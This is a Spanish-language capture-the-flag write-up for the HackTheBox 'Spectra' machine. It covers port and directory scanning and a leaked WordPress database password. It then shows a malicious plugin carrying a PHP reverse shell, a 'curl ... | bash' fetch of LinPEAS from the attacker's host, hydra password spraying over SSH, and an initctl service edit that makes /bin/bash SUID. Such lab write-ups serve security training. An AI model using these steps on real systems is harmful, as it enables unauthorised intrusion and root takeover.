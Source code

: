 ```yaml
---
title: HackTheBox - Spectra
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Wordpress', 'Binary Abusing']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Spectra/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Spectra Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Information Leakage, Wordpress, Binary Abusing**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Spectra/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Spectra/02-versions.png)

> Añadimos el host `spectra.htb` en el fichero /etc/hosts
{: .prompt-info }

c. Ahora, haremos un fuzzing de directorios 

```bash
❯ wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  http://spectra.htb/FUZZ/

<SNIP>
000000063:   200        346 L    1460 W     25940 Ch    "main" 
000001458:   200        26 L     111 W      2514 Ch     "testing"
```

* Al visitar este directorio, tendremos la capacidad de **directory listing**, aquí veremos un fichero **wp-config.php.save** y si vemos su código fuente encontramos credenciales. 

    ```php
    <SNIP>
    define( 'DB_PASSWORD', 'devteam01' );
    ```

* En el directorio **/main** encontramos un Wordpress con un usuario

![](/assets/images/HTB/Easy/Spectra/03-user.png)

* Nos autenticamos con este usuario y la contraseña, previamente encontrada, en Wordpress

d. Para entablarnos una reverse shell instalamos un nuevo plugin 

```bash
❯ cat backup.php

/**
* Plugin Name: Backup
* Plugin URI:
* Description: Backup
* Version: 1.0
* Author: Testing
* Author URI: http://www.testing.com
*/

# Copiamos el contenido de esta reverse shell
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

❯ zip backup.zip backup.php
```

* Ahora, instalamos este plugin en Wordpress y luego de este paso, damos clic en 'Activar Plugin'

    ![](/assets/images/HTB/Easy/Spectra/04-add.png)

* Con todos los pasos anteriores ya tendremos una reverse shell

    ```bash
    ❯ nc -lvnp 4444
    $ whoami
    nginx
    ```

### Escalada de Privilegios 💹

a. Subiremos `LinPEAS` para descubrir ficheros de configuración o alguna forma de escalar privilegios

```bash
❯ ls
linpeas.sh
❯ python -m http.server 80
----------------------------------------
nginx@spectra /tmp $ curl 10.10.14.18/linpeas.sh | bash

<SNIP>
╔══════════╣ Analyzing Autologin Files (limit 70)
drwxr-xr-x 2 root root 4096 Feb  3  2021 /etc/autologin
```

* Si vamos a este directorio encontraremos una contraseña

    ```bash
    nginx@spectra /etc/autologin $ cat passwd 
    SummerHereWeCome!!
    ```

* Tenemos varios usuarios en el sistema, así que haremos fuerza bruta con hydra

    ```bash
    ❯ cat users
    chronos
    katie
    root
    user
    ❯ hydra -L users -p 'SummerHereWeCome!!' ssh://10.10.10.229 -t 4
    [22][ssh] host: 10.10.10.229   login: katie   password: SummerHereWeCome!!
    ```

b. Nos autenticamos en el servicio SSH y listamos nuestros privilegios a nivel de sudoers

```bash
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

> `/sbin/initctl` se usa para gestionar servicios, eventos y su configuración. Esta configuración es almacenada en **/etc/init**
{: .prompt-info }

* Listamos los servicio disponibles

    ```bash
    katie@spectra ~ $ ls /etc/init
    activate_date.conf       cryptohome-update-userdataauth.conf   ippusb.conf        pre-shutdown.conf    test.conf
    anomaly-detector.conf    cryptohomed-client.conf               iptables.conf      pre-startup.conf     test2.conf
    ```

* Modificamos alguno de estos para ejecutar un comando al iniciar un servicio

    ```bash
    katie@spectra ~ $ cat /etc/init/test2.conf

    <SNIP>
    script
        chmod +s /bin/bash
    end script
    ```

* Por último, iniciamos este servicio y podremos acceder como root

    ```bash
    katie@spectra ~ $ sudo /sbin/initctl start test2                                    
    test2 start/running, process 18269
    katie@spectra ~ $ ls -la /bin/bash   
    -rwsr-sr-x 1 root root 551984 Dec 22  2020 /bin/bash
    katie@spectra ~ $ bash -p            
    bash-4.3# whoami
    root
    ```